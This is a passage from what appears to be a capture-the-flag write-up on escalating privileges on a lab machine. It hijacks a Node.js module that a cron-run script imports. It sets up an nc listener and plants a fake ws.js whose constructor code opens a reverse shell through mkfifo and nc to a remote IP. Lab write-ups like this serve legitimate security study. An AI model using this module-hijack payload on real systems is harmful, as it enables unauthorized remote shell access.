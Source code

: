 Looking at the log file it generates, it seems to be executed every minute.

```php
crossfit2$ cat /tmp/chatbot.log
2021.08.11, 16:27:12.0414 UTC -> Bot is alive
2021.08.11, 16:28:02.0464 UTC -> Bot is alive
2021.08.11, 16:29:02.0680 UTC -> Bot is alive
2021.08.11, 16:30:02.0860 UTC -> Bot is down (failed to connect)
2021.08.11, 16:31:01.0937 UTC -> Bot is alive
2021.08.11, 16:32:03.0255 UTC -> Bot is alive
...[snip]...
2021.08.12, 07:57:03.0228 UTC -> Bot is alive
2021.08.12, 07:58:03.0054 UTC -> Bot is alive
2021.08.12, 07:59:03.0251 UTC -> Bot is alive
2021.08.12, 08:00:02.0804 UTC -> Bot is alive
2021.08.12, 08:01:01.0849 UTC -> Bot is alive
2021.08.12, 08:02:04.0961 UTC -> Bot is alive
```

The script imports 3 modules which is interesting because we can write in the path above it. The way node searches for modules is the following. First it looks if the module is a core module. If it is not it looks in the current directory and THEN traverses back up the directory structure to look for a `node_modules` directory. Since we have the right to write in the `/opt/sysadmin/` directory we can hijack a module that is being importet to execute a reverse shell.

We first set up our ncat listener again.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we create a `/opt/sysadmin/node_modules` directory and a `/opt/sysadmin/node_modules/ws.js` file which contains our reverse shell. The next time the `statbot.js` is now executed our reverse shell get's imported and executed.

```php
crossfit2$ mkdir /opt/sysadmin/node_modules
crossfit2$ vi /opt/sysadmin/node_modules/ws.js
```

`ws.js`
```js
module.exports = class WebSocket{
   constructor(stuff){
     this.stuff = stuff;
   }
   on(doesnt, matter){
     require('child_process').exec('rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.65 7575 >/tmp/g');
 }
}
```
